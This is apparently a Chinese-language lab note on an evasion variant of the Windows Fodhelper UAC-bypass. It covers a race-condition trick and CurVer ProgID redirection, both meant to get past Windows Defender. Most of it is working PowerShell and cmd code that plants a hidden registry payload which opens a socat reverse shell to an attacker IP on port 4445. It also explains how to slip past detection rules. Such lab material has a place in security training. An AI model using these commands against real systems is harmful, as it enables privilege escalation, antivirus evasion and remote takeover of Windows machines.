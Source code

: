 - 改进 Fodhelper 漏洞以尝试规避 Windows Defender:
    
    Windows Defender 或其他 AV/EDR 产品可能会监控对敏感注册表项（如与 ms-settings 关联的命令）的修改。当检测到恶意命令被写入时，它可能会立即删除该注册表值或发出警报。
    
    1. 竞争条件 (Race Condition) 利用尝试:
        
        一种思路是利用 Defender 采取行动所需的时间差。在设置恶意注册表值后，立即执行 fodhelper.exe。
        
        DOS
        
        ```
        reg add %REG_KEY% /ve /d %CMD_PAYLOAD% /f & fodhelper.exe
        ```
        
        如果 `fodhelper.exe` 在 Defender 删除注册表值之前就读取并执行了它，那么绕过可能成功。但这通常不稳定。
        
    2. 使用 CurVer (当前版本) 注册表项进行改进:
        
        这种技术更为隐蔽。当系统查找 ProgID 时，如果该 ProgID 下存在一个 CurVer 子键，系统会使用 CurVer 子键的默认值作为新的 ProgID 去查找命令。
        
        - **步骤**:
            1. 创建一个全新的、任意名称的 ProgID (例如，`.pwn` 或 `.thm`)。在其下创建 `Shell\Open\command` 子键结构，并将恶意载荷命令设置为这个新 ProgID 的默认打开命令。同时确保 `DelegateExecute` 也存在。
            2. 在 `HKCU\Software\Classes\ms-settings\` 下创建一个名为 `CurVer` 的子键。
            3. 将 `HKCU\Software\Classes\ms-settings\CurVer` 的默认值设置为指向你新创建的 ProgID 的名称 (例如，`.pwn`)。
        - **PowerShell 示例**:
            
            PowerShell
            
            ```
            $program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
            New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
            Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(Default)" -Value $program -Force
            Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force # 确保 DelegateExecute
            
            New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
            Set-ItemProperty "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(Default)" -Value ".pwn" -Force
            
            Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
            ```
            
        - 当 `fodhelper.exe` 尝试使用 `ms-settings` ProgID 打开文件时，它会发现 `CurVer` 指向 `.pwn`，于是转而使用 `.pwn` ProgID 关联的命令，从而执行恶意载荷。
        - 这种技术更可能绕过某些基于特定 ProgID 名称 (如 `ms-settings`) 的简单检测规则，因为包含实际载荷的 ProgID 名称是攻击者任意选择的。
        - **注意**: 即使如此，如果载荷本身（例如，PowerShell 执行 `socat`）的行为被 Defender 识别为恶意，仍然可能触发警报。有时，将 PowerShell 载荷转换为等效的 `cmd.exe` 命令可能会有不同的检测结果。
            
            DOS
            
            ```
            set CMD_PAYLOAD="cmd.exe /c C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
            reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /ve /d %CMD_PAYLOAD% /f
            reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /v "DelegateExecute" /d "" /f
            reg add "HKCU\Software\Classes\ms-settings\CurVer" /ve /d ".thm" /f
            fodhelper.exe
            ```
            